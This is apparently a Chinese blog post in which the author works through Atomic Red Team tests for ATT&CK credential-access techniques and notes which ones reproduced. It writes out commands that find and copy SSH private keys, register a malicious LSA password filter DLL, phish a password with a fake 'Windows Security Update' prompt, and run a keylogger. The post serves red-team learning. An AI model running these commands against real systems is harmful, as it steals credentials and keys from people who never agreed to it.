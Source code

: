 ```yaml
---
layout: post
title: 跟着ATT&CK学安全之credential-access
excerpt: "跟着ATT&CK学安全之credential-access"
categories: [ATT&CK]
comments: true
---
```

#### T1145 - Private Keys
私钥和证书可以进行权限验证,加解密进行数字签名.攻击者可用这些进行权限维持或者解密文件.通常密钥和证书的后缀是`.key, .pgp, .gpg, .ppk., .p12, .pem, .pfx, .cer, .p7b, .asc. `

私钥一般需要密码和口令来操作,所以红队可以使用工具进行键盘记录或者爆破密码
###### 测试1 Private Keys
在windows中查找`.key, .pgp, .gpg, .ppk., .p12, .pem, pfx, .cer, .p7b, .asc`后缀的文件名
```
echo "ATOMICREDTEAM" > %windir%\cert.key
dir c:\ /b /s .key | findstr /e .key
```
win10成功复现
###### 测试2 Discover Private SSH Keys
在linux中查找ssh私钥
```
find / -name id_rsa >> #{output_file}
find / -name id_dsa >> #{output_file}
```
成功复现
###### 测试3 Copy Private SSH Keys with CP
```
mkdir #{output_folder}
find / -name id_rsa -exec cp --parents {} #{output_folder} \;
find / -name id_dsa -exec cp --parents {} #{output_folder} \;
```
成功复现
###### 测试4 Copy Private SSH Keys with rsync
```
mkdir #{output_folder}
find / -name id_rsa -exec rsync -R {} #{output_folder} \;
find / -name id_dsa -exec rsync -R {} #{output_folder} \;
```
成功复现
### T1174 - Password Filter DLL
Windows password filters对于本地和域账户来说都是一种密码校验的机制,Filters使用dll作为接口,来进行密码规则的校验.Filter Dll在本地电脑对本地账户或者域控管理者进行校验.

在使用Security Accounts Manager注册新的密码之前, Local Security Authority向registered filter请求验证,当验证通过才能进行密码修改

红队可以注册一个有害的password filters来危害本地电脑或者真个域控
###### 测试1 Install and Register Password Filter DLL
使用powershell来安装注册password filter DLL,同时需要administrative权限和重启
```
$passwordFilterName = (Copy-Item "#{input_dll}" -Destination "C:\Windows\System32" -PassThru).basename
$lsaKey = Get-Item "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\"
$notificationPackagesValues = $lsaKey.GetValue("Notification Packages")
$notificationPackagesValues += $passwordFilterName
Set-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\" "Notification Packages" $notificationPackagesValues
Restart-Computer -Confirm
```
**项目中缺少文件,没有复现**
### T1040 - Network Sniffing
这个没什么说的,就是抓流量
###### 测试1 Packet Capture Linux
```
tcpdump -c 5 -nnni #{interface}
tshark -c 5 -i #{interface}
```
成功复现
###### 测试2 Packet Capture Windows Command Prompt
```
tcpdump -c 5 -nnni #{interface}
tshark -c 5 -i #{interface}
```
成功复现
### T1141 - Input Prompt
当程序被运行后需要额外的权限的时候,系统会向用户索要额外的权限凭证.红队可模仿这个方法,向用户索要额外的权限凭证.并记录下来
###### 测试1 PowerShell - Prompt User for Password
在powershell中运行
```
# Creates GUI to prompt for password. Expect long pause before prompt is available.    
$cred = $host.UI.PromptForCredential('Windows Security Update', '',[Environment]::UserName, [Environment]::UserDomainName)
# Using write-warning to allow message to show on console as echo and other similar commands are not visable from the Invoke-AtomicTest framework.
write-warning $cred.GetNetworkCredential().Password
```
ps:效果相当好啊!!!

win10成功复现
### T1056 - Input Capture
Keylogging 是最常用的input caputure手段
###### 测试1 Input Capture
```
set-ExecutionPolicy RemoteSigned
.\T1056\src\Get-Keystrokes.ps1 -LogPath #{filepath}
```
没有成功,回家再试一下

